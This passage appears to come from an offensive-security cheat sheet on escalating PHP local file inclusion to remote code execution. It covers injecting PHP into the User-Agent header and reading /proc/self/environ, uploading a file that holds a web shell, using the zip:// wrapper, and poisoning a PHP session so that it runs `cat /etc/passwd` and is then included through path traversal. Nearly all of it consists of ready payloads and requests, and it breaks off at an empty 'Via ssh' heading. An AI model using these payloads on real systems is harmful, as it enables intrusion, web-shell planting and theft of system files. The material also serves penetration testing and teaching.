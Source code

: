 ```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## Via upload <a href="#via-upload" id="via-upload"></a>

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

## Via Zip fie upload <a href="#via-zip-fie-upload" id="via-zip-fie-upload"></a>

Upload a ZIP file containing a PHP shell compressed and access:

```
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

## Via PHP sessions <a href="#via-php-sessions" id="via-php-sessions"></a>

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\\_\[PHPSESSID]\_ files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

## Via ssh <a href="#via-ssh" id="via-ssh"></a>
